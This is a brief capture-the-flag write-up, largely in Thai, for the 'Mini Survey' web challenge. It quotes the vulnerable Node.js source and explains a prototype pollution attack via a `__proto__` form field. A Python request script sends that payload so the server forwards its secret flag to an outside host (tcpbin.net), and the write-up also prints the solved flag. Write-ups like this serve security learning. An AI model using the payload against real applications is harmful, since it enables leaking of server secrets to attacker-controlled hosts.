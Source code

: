# web/Mini Survey

## index.js
```js
const updateDBs = require("./serverComs");
...
app.post("/pollutionsurvey", (req, res) => {
    let fieldInput1 = req.body.name;
    let fieldInput2 = req.body.city;
    let fieldInput3 = req.body.pollutionRate;

    surveyOneInitialData[fieldInput1] = { [fieldInput2]: fieldInput3 };
    
    surveyOneInitialData = updateDBs(surveyOneInitialData, {
        Name: { City: "Rating" },
    });

    res.redirect("/thankyou");
});
...
```
งืม~~ ยังไม่เห็นไรมาก ลองไปดู func updateDBs ดีกว่า

## serverComs.js
```js
...
backupServerHost = "";
backupServerPort = "";

function sendData(data) {
    const postData = JSON.stringify(data);

    if (data.host != undefined) {backupServerHost = data.host}
    if (data.port != undefined) {backupServerPort = data.port}

    const options = {host: backupServerHost || "localhost", port: backupServerPort || "8888" };
    console.log("options:",options);

    const socket = net.connect(options, () => {
        socket.write(postData);
        socket.end();
    });
    ...
}
function updateDBs(dataObj, original) {
    let commData = Object.create(dataObj);
    commData["flag"] = "nite{FAKE_FLAG}";
    commData["log"] = "new entry added";
    sendData(commData);
    return original;
}
...
```
func updateDBs จะเพิ่ม flag เข้าไปใน commData (dataObj ที่ถูก clone มา) และก็จะเรียก func sendData เพื่อเชื่อมต่อ แบบ tcp ไปยังที่ไหนสักที่ และก็ส่ง postData ที่มี flag อยู่ไป

## ทำไงล่ะทีนี้?
ผมไปเจอ https://t.ly/EgVId พบว่าเราสามารถใช้ `__proto__` เพื่อไป set prototype ของ object นั้นๆได้ (ถ้าทฤษฎีเพี้ยนอย่าโกรธกันเลย) ผมก็เลยได้ script นี้เพื่อเอา flag คร่าวๆประมาณนี้
```python
from requests import request
payload = 'name=__proto__&city=port&pollutionRate=47183' # city = key, pollutionRate = value
request("POST", "??", headers={'Content-Type':'application/x-www-form-urlencoded'}, data=payload)
```
ส่วน host, port ก็ใช้ tcpbin.net เอาครับ

## Flag
`nite{pr0t0_p0llut3d_116a4601b79d6b8f}`
(`nite{9wd_t0_th3_r35cu3_dp54kf}` fake flag in prod 🤣)

![firstblood](firstbloodXD.png)

ได้ firstblood ครั้งแรกคั้บบบ~~
